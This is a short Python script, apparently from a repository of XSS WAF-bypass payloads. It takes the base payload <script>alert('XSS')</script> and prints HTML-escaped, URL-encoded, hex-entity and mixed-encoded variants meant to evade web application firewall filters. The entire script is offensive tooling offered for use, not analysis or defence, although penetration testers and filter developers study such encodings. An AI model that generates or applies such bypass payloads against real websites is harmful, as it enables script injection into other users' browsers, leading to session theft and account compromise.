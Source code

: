 # akshaykrishnaxss-waf-bypass-payloads
# Python Script to Generate XSS Payloads

import html
import urllib.parse

def generate_xss_variants(payload):
    variants = []

    # Basic payload
    variants.append(payload)

    # HTML-encoded
    html_encoded = html.escape(payload)
    variants.append(html_encoded)

    # URL-encoded
    url_encoded = urllib.parse.quote(payload)
    variants.append(url_encoded)

    # Hex encoding
    hex_encoded = ''.join(['&#x{:x};'.format(ord(c)) for c in payload])
    variants.append(hex_encoded)

    # Mixed encoding (alternate)
    mixed_encoded = ''.join(['&#x{:x};'.format(ord(c)) if i % 2 == 0 else c for i, c in enumerate(payload)])
    variants.append(mixed_encoded)

    return variants


# Example base payload
base_payload = "<script>alert('XSS')</script>"
payloads = generate_xss_variants(base_payload)

for i, p in enumerate(payloads):
    print(f"[Variant {i+1}]: {p}")
